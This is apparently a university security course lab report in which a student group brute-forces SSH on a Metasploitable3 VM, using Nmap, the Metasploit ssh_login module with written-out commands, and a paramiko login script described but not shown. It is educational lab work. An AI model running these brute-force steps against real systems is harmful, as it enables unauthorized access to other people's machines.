# 📌 ICS344 Project – Phase 1: Setup and Compromise the Service

## 👥 Group Information
- **Section**: ICS344 – Section 3  
- **Group**: #7  
- **Members**:
  - Mohammed Semlali – 202183090  
  - Abedalaziz Hamad – 202183050  
  - Abdulrahman Basaif – 202027940  

---

## 🛠️ Setup

- **Victim Machine**: Metasploitable3  
  - IP Address: `192.168.0.172`
- **Attacker Machine**: Kali Linux  
  - IP Address: `192.168.0.242`

### 🔧 Commands to prepare the attacker (Kali) machine:
```bash
sudo apt update && sudo apt upgrade -y
sudo apt install metasploit-framework -y
sudo msfconsole
```

<p align="center">
  
  <br><em>Victim IP Configuration</em>
</p>

<p align="center">
  
  <br><em>Attacker IP Configuration</em>
</p>

<p align="center">
  
  <br><em>Victim pinging attacker</em>
</p>

<p align="center">
  
  <br><em>Attacker pinging victim</em>
</p>

---

## 🎯 Targeted Service

We scanned the victim using **Nmap** and confirmed that the **SSH** service (port `22`) was active and accessible.

<p align="center">
  
  <br><em>Nmap full scan results</em>
</p>

<p align="center">
  
  <br><em>Nmap focused SSH scan</em>
</p>

---

## ⚔️ Task 1.1 – Exploiting SSH using Metasploit

We created dictionaries of common usernames and passwords and used Metasploit’s `ssh_login` module to brute-force access.

### 🔐 Metasploit Commands Used:
```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.0.172
set USER_FILE usernames.txt
set PASS_FILE passwords.txt
set STOP_ON_SUCCESS true
run
```

<p align="center">
  
</p>

<p align="center">
  
</p>

<p align="center">
  
</p>

<p align="center">
  
</p>

<p align="center">
  
</p>

<p align="center">
  
</p>

<p align="center">
  
</p>

<p align="center">
  
</p>

---

## 🤖 Task 1.2 – Exploiting SSH using a Custom Script

We developed a **Python script** using `paramiko` to automate the login process.

### ✅ Script Workflow:
- Connects to the victim over SSH
- Executes the `whoami` command
- Prints the output as proof of access

<p align="center">
  
  <br><em>Python script used to exploit SSH</em>
</p>

<p align="center">
  
  <br><em>Script output: Access verified</em>
</p>

---

## 🧠 Ethical Note

> ⚠️ This project was performed in a **legal, isolated environment** using Metasploitable3.  
> Never perform unauthorized access on real systems.

---

## ✅ Conclusion

We successfully:
- Set up and validated network connectivity
- Scanned the target using Nmap
- Gained access to the victim via SSH using Metasploit
- Wrote a working custom Python exploit using `paramiko`

Phase 1 objectives were fully completed and documented.
